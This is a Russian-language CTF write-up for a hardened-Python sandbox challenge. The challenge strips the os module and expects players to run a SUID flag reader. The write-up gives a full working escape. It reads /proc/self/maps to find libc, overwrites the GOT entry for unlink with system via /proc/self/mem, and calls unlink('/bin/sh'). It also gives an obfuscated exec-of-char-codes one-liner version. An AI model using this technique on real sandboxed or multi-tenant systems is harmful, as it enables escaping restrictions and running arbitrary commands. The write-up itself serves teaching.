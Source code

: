# Название: Bare Minimal Python
### ВЫДАТЬ УЧАСТНИКАМ sources.zip

### Описание
САМЫЙ ПЕРЕДОВОЙ ПИТОН ИНТЕРПРЕТАТОР! САМАЯ БЫСТРАЯ СКОРОСТЬ ВЫПОЛНЕНИЯ! САМАЯ НАДЁЖНАЯ ЗАЩИТА (а вот тут следовало бы выяснить поподробнее)
#### Примечание 1: Для получения флага вам нужно запустить бинарник `/give_me_flag`. Реверсить и всячески исследовать его не надо, это простая "читалка" единственного файла с флагом, на котором стоит SUID бит.
#### Примечание 2: В Dockerfile зафиксирована версия базового образа через хеш sha256 (`ubuntu@sha256:...`). Это гарантирует возможность получить такую же среду, как на нашем сервере.
#### Примечание 3: xinetd - служебный файл, необходимый для развертывания на сервере. В нём нет уязвимостей.

### Решение
Был изменён файл posixmodule.c, а также удалены все модули, кроме encodings, т.к. без него Python запускаться отказался.  
Также "заблокированы" (не вносятся в итоговую сборку, т.к. не присутствуют в файле `posix_methods`) все функции из модуля `os`, кроме:
```c
// I EVEN DISABLED THOSE SHADY METHODS
// ONLY BARE MINIMUM REMAINS
static PyMethodDef posix_methods[] = {

    OS_LISTDIR_METHODDEF
    OS_STAT_METHODDEF
    OS_FSPATH_METHODDEF
    OS_MKDIR_METHODDEF
    OS_OPEN_METHODDEF
    OS_CLOSE_METHODDEF
    OS_REPLACE_METHODDEF
    OS_SCANDIR_METHODDEF
    OS_UNLINK_METHODDEF
    OS_RMDIR_METHODDEF
    OS_LSTAT_METHODDEF
    OS_GETCWD_METHODDEF
    {NULL,              NULL}            /* Sentinel */
};
```
Также по всем методам, позволяющим запускать процессы, расставлены return-ы в самом начале с комментариями вида "так просто не получится" (но это не играет никакого значения, т.к. данные методы запустить не удастся из-за отсутствия в итоговой сборке).
```
static PyObject *
os_execve_impl(PyObject *module, path_t *path, PyObject *argv, PyObject *env)
/*[clinic end generated code: output=ff9fa8e4da8bde58 input=626804fa092606d9]*/
{
    return 0xCAFE; // no way bro
```
Негусто, но можно переписать GOT таблицу, тем самым подменив функцию из libc на нужную (python будет "думать", что вызывается напр. ф-ция unlink, а по факту вызовется system)
```python
m=open('/proc/self/maps','r') # to bypass ASLR
map=m.read().splitlines(keepends=False)
m.close()
for st in map:
    if '/usr/lib/x86_64-linux-gnu/libc.so.6' in st: # first libc str
        RES = st
        break

BASE_LIBC = int(RES.split('-')[0], 16) # libc base
ADDR_SYSTEM = 0x7ff997dedd60 - 0x7ff997d9d000 + BASE_LIBC

BASE_GOT = int(map[0].split('-')[0], 16) # SYSTEM LIBC
ADDR_GOT = 0x5578ea82ca50 - 0x5578ea397000 + BASE_GOT

print('got(unlink):', hex(ADDR_GOT), 'system:', hex(ADDR_SYSTEM))

import os
f = open('/proc/self/mem','wb')
f.seek(ADDR_GOT) # seek to chdir
f.write((ADDR_SYSTEM).to_bytes(8,'little')) # mock unlink with system libc func
f.close()
os.unlink("/bin/sh") # fake unlink (now points to system)
```


Однострочник для избежания проблем со вставкой табуляции:
```
exec(''.join([chr(q) for q in [109,61,111,112,101,110,40,39,47,112,114,111,99,47,115,101,108,102,47,109,97,112,115,39,44,39,114,39,41,32,35,32,116,111,32,98,121,112,97,115,115,32,65,83,76,82,10,109,97,112,61,109,46,114,101,97,100,40,41,46,115,112,108,105,116,108,105,110,101,115,40,107,101,101,112,101,110,100,115,61,70,97,108,115,101,41,10,109,46,99,108,111,115,101,40,41,10,102,111,114,32,115,116,32,105,110,32,109,97,112,58,10,32,32,32,32,105,102,32,39,47,117,115,114,47,108,105,98,47,120,56,54,95,54,52,45,108,105,110,117,120,45,103,110,117,47,108,105,98,99,46,115,111,46,54,39,32,105,110,32,115,116,58,32,35,32,102,105,114,115,116,32,108,105,98,99,32,115,116,114,10,32,32,32,32,32,32,32,32,82,69,83,32,61,32,115,116,10,32,32,32,32,32,32,32,32,98,114,101,97,107,10,10,66,65,83,69,95,76,73,66,67,32,61,32,105,110,116,40,82,69,83,46,115,112,108,105,116,40,39,45,39,41,91,48,93,44,32,49,54,41,32,35,32,108,105,98,99,32,98,97,115,101,10,65,68,68,82,95,83,89,83,84,69,77,32,61,32,48,120,55,102,102,57,57,55,100,101,100,100,54,48,32,45,32,48,120,55,102,102,57,57,55,100,57,100,48,48,48,32,43,32,66,65,83,69,95,76,73,66,67,10,10,66,65,83,69,95,71,79,84,32,61,32,105,110,116,40,109,97,112,91,48,93,46,115,112,108,105,116,40,39,45,39,41,91,48,93,44,32,49,54,41,32,35,32,83,89,83,84,69,77,32,76,73,66,67,10,65,68,68,82,95,71,79,84,32,61,32,48,120,53,53,55,56,101,97,56,50,99,97,53,48,32,45,32,48,120,53,53,55,56,101,97,51,57,55,48,48,48,32,43,32,66,65,83,69,95,71,79,84,10,10,112,114,105,110,116,40,39,103,111,116,40,117,110,108,105,110,107,41,58,39,44,32,104,101,120,40,65,68,68,82,95,71,79,84,41,44,32,39,115,121,115,116,101,109,58,39,44,32,104,101,120,40,65,68,68,82,95,83,89,83,84,69,77,41,41,10,10,105,109,112,111,114,116,32,111,115,10,102,32,61,32,111,112,101,110,40,39,47,112,114,111,99,47,115,101,108,102,47,109,101,109,39,44,39,119,98,39,41,10,102,46,115,101,101,107,40,65,68,68,82,95,71,79,84,41,32,35,32,115,101,101,107,32,116,111,32,99,104,100,105,114,10,102,46,119,114,105,116,101,40,40,65,68,68,82,95,83,89,83,84,69,77,41,46,116,111,95,98,121,116,101,115,40,56,44,39,108,105,116,116,108,101,39,41,41,32,35,32,109,111,99,107,32,117,110,108,105,110,107,32,119,105,116,104,32,115,121,115,116,101,109,32,108,105,98,99,32,102,117,110,99,10,102,46,99,108,111,115,101,40,41,10,111,115,46,117,110,108,105,110,107,40,34,47,98,105,110,47,115,104,34,41,32,35,32,102,97,107,101,32,117,110,108,105,110,107,32,40,110,111,119,32,112,111,105,110,116,115,32,116,111,32,115,121,115,116,101,109,41]]))
```
